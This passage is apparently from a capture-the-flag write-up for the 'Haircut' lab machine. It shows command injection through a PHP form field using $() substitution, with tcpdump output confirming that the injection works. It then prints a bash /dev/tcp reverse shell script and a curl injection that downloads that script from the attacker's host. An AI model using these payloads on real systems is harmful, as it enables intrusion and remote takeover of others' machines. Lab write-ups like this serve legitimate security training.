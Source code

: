 
### Alternative Injection

I noticed the none of ``$()` were triggering the filter, so I went for command
injection that way as well. The `curl` command throws errors onto the page:

    
    
    root@kali# curl http://10.10.10.24/exposed.php -d 'formurl=10.10.14.15/$(ping -c 1 10.10.14.15)&submit=go'
    <html>
            <head>
                    <title>Hairdresser checker</title>
            </head>
            <body>
            <form action='exposed.php' method='POST'>
                    <span>
                    <p>
                    Enter the Hairdresser's location you would like to check. Example: http://localhost/test.html
                    </p>
                    </span>
                    <input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.html'/>
                    <input type='submit' name='submit' value='Go' id='submit' />
            </form>
            <span>
                    <p>Requesting Site...</p>curl: option ---: is unknown
    curl: try 'curl --help' or 'curl --manual' for more information
            </span>
            </body>
    </html>
    

But at `tcpdump` I get pings:

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:04:58.132878 IP 10.10.10.24 > 10.10.14.15: ICMP echo request, id 2117, seq 1, length 64
    21:04:58.132924 IP 10.10.14.15 > 10.10.10.24: ICMP echo reply, id 2117, seq 1, length 64
    

Replacing `$([command])` with ``[command]`` also worked. All of the reverse
shells I typically use contain other filtered characters. But I can use the
command injection to upload a shell:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.15/443 0>&1
    

Now I’ll upload it to Haircut with:

    
    
    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'
    